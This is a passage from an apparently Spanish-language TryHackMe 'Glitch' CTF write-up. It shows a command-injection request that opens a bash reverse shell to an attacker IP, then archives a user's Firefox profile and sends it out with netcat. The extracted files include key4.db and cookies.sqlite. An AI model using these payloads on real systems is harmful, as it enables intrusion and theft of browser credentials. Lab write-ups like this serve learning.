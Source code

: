 
```css
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.9.0.68/4444+0>%261"') HTTP/1.1
```

![burp](/assets/images/thm-writeup-glitch/glitch_burp_exploit.png)

---

### 3.1 TAR Comprimir

- Investigando los archivos listados encontramos la carpeta **.firefox** la cual procedemos a comprimir con **tar** y a descargar con **nc**, con los siguientes comandos:

```css
user@ubuntu:~$ tar -czvf .firefox
user@ubuntu:~$ ls
firefox.tar.gz  user.txt

```

### 3.2 Compartir archivo con nc

```css
[Terminal atacante]
─# nc -nlvp 3333 > firefox.tar.gz
listening on [any] 3333 ...
connect to [10.9.0.68] from (UNKNOWN) [10.10.24.13] 60530
─# ls
exp.py  firefox.tar.gz

[Terminal target]
user@ubuntu:~$ nc -nv 10.9.0.68 3333 < firefox.tar.gz
Connection to 10.9.0.68 3333 port [tcp/*] succeeded!
```

### 3.3 TAR descomprimir

```css
└─# tar xvzf firefox.tar.gz 
.firefox/
.firefox/profiles.ini
.firefox/Crash Reports/
.firefox/Crash Reports/events/
.firefox/Crash Reports/InstallTime20200720193547
.firefox/b5w4643p.default-release/
.firefox/b5w4643p.default-release/key4.db
.firefox/b5w4643p.default-release/cookies.sqlite
.firefox/b5w4643p.default-release/prefs.js
...
```
